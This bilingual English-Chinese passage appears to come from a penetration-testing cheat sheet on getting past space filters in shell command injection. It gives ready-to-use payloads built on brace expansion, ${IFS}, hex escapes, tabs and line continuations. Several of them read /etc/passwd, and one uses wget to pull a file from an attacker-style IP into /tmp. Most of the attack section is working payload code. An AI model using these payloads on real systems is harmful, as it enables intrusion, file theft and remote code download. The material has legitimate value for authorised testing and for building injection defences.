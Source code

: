 #### 技术2：使用转义字符

另一种技术是使用转义字符，例如反斜杠，来转义命令中的空格。这告诉shell将空格视为字面字符，而不是参数分隔符。

```bash
$ echo command\ with\ spaces
```

#### Technique 3: Using alternative whitespace characters

Some shells allow the use of alternative whitespace characters, such as tabs or newlines, instead of spaces. By using these alternative characters, you can bypass the restrictions on spaces.

#### 技术3：使用替代的空白字符

一些shell允许使用替代的空白字符，例如制表符或换行符，而不是空格。通过使用这些替代字符，您可以绕过对空格的限制。

```bash
$ echo command$'\t'with$'\t'spaces
```

By employing these techniques, you can bypass restrictions on spaces and successfully execute commands that contain spaces. However, it is important to note that these techniques may not work in all scenarios, as they depend on the specific configuration and restrictions in place.

通过使用这些技术，您可以绕过对空格的限制并成功执行包含空格的命令。然而，需要注意的是，这些技术可能在所有情况下都不起作用，因为它们取决于特定的配置和限制。
```bash
# {form}
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test

# IFS - Internal field separator, change " " for any other character ("]" in this case)
cat${IFS}/etc/passwd # cat /etc/passwd
cat$IFS/etc/passwd # cat /etc/passwd

# Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` # Using cat twice
#  Other way, just change each space for ${IFS}
echo${IFS}test

# Using hex format
X=$'cat\x20/etc/passwd'&&$X

# Using tabs
echo "ls\x09-l" | bash

# New lines
p\
i\
n\
g # These 4 lines will equal to ping

# Undefined variables and !
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```
### 绕过反斜杠和斜杠限制
